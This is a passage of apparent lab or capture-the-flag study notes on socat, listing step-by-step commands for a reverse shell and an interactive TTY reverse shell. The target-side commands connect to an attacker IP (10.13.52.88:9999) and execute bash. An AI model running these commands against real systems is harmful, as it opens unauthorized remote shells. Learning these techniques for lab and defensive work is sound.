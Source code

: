 		![task13-socat-normal-bind](./images/task13-socat-normal-bind.png)

	* Reverse shell

		* Step 1 on our machine = `socat TCP-L:9999 -`		
		* Step 2 on target machine = `socat TCP:10.13.52.88:9999 EXEC:"bash -li"`

		![task13-socat-normal-reverse](./images/task13-socat-normal-reverse.png)

	#### Socat special techniques

	Reverse shell when target system is Linux

	* Step 1 on our machine = ``socat TCP-L:9999 FILE:`tty`,raw,echo=0``
	* Step 2 on target machine = `socat TCP:10.13.52.88:9999 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

	![task13-socat-special](./images/task13-socat-special.png)
